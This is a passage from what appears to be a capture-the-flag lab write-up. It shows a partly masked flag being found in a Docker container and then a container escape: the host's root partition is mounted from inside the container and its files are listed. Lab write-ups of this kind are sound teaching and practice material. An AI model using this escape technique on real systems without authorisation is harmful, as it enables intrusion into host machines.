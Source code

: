 First lets grab the **user.txt flag* before escalating our privileges.
**user flag** was neither in the `/home` directory nor in the `/root` directory in the docker container. On further enumeration I found the `user flag` in `/opt` 

```
# cd /opt
/opt # ls -la
total 12
drwxr-xr-x    1 root     root          4096 Dec 11 21:04 .
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 ..
-rw-r--r--    1 root     root            19 Dec 11 21:04 .flag1
/opt # cat .flag1
THM{LOG*****W}
```
# root.txt
---------------

## docker escape

Running `fdisk` command shows that the `/` filesytem of the machine is mounted in `/dev/xvda1` .

```
# fdisk -l
Disk /dev/xvda: 40 GiB, 42949672960 bytes, 83886080 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x3650a2cc

Device     Boot Start      End  Sectors Size Id Type
/dev/xvda1 *     2048 83886046 83883999  40G 83 Linux


Disk /dev/xvdh: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/xvdf: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
```
Lets create a new directory called `realroot` in `/tmp` directory & mount the partition there.

```
# mkdir /tmp/realroot    
# mount /dev/xvda1 /tmp/realroot
# ls -al /tmp/realroot
total 100
drwxr-xr-x   22 root     root          4096 Jan 30 15:48 .
drwxrwxrwt    1 root     root          4096 Jan 30 16:32 ..
drwxr-xr-x    2 root     root          4096 Dec  8 16:04 bin
drwxr-xr-x    3 root     root          4096 Dec  8 16:03 boot
drwxr-xr-x    4 root     root          4096 Dec  8 16:03 dev
drwxr-xr-x   94 root     root          4096 Dec 13 02:21 etc
drwxr-xr-x    3 root     root          4096 Dec 13 01:25 home
lrwxrwxrwx    1 root     root            34 Dec  8 16:02 initrd.img -> boot/initrd.img-4.15.0-163-generic
lrwxrwxrwx    1 root     root            34 Dec  8 16:02 initrd.img.old -> boot/initrd.img-4.15.0-163-generic
drwxr-xr-x   20 root     root          4096 Dec 13 01:24 lib
```